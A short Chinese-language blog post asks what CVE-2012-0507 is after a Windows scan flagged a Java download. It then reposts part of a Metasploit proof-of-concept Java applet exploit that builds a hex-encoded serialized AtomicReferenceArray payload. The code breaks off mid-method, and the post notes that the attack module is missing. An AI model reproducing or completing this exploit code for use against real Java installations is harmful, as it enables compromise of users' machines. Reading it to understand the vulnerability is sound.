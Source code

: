 ```yaml
---

title: CVE 2012 0507 Java
key: 2022-08-29
tags: CVE-2012-0507 Java
---
```


公司的电脑升级 OpenJDK 8, 所以从 RedHet 官网下载了一个最新的版本, 结果被 Windows 扫描到有 CVE-2012-0507, 还因此禁用了我的网络连接. 那么什么是 CVE-2012-0507 漏洞呢?

以下是转载的内容.



这里就是 java 的 cve 2012 0507 的 poc 所在了，大部分网上流传的基本上都基于这里，而且大家要注意这个poc的攻击模块并没有在其中写出来，所以直接运行是没有结果的。

## 0x01

[CVE-2012-0507 (Java)](https://github.com/wchen-r7/metasploit-framework/blob/791ebdb679d53f6363cf88a54db57722719cd62a/external/source/exploits/CVE-2012-0507/Exploit.java)

```java
package a;

import java.applet.Applet;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.concurrent.atomic.AtomicReferenceArray;
import a.*;

// Referenced classes of package a:
//     Help

public class Exploit extends Applet
{

 public Exploit()
 {
 }

 public static byte[] StringToBytes(String s)
 {
  byte abyte0[] = new byte[s.length() / 2];
  for(int i = 0; i < s.length(); i += 2)
   abyte0[i / 2] = (byte)((Character.digit(s.charAt(i), 16) << 4) + Character.digit(s.charAt(i + 1), 16));

  return abyte0;
 }

 public void init()
 {
  try
  {
   String as[] = {
    "ACED0005757200135B4C6A6176612E6C616E672E4F62", "6A6563743B90CE589F1073296C020000787000000002", "757200095B4C612E48656C703BFE2C941188B6E5FF02", "000078700000000170737200306A6176612E7574696C", "2E636F6E63757272656E742E61746F6D69632E41746F", "6D69635265666572656E63654172726179A9D2DEA1BE", "65600C0200015B000561727261797400135B4C6A6176", "612F6C616E672F4F626A6563743B787071007E0003" 
   };
   StringBuilder stringbuilder = new StringBuilder();
   for(int i = 0; i < as.length; i++)
    stringbuilder.append(as[i]);

```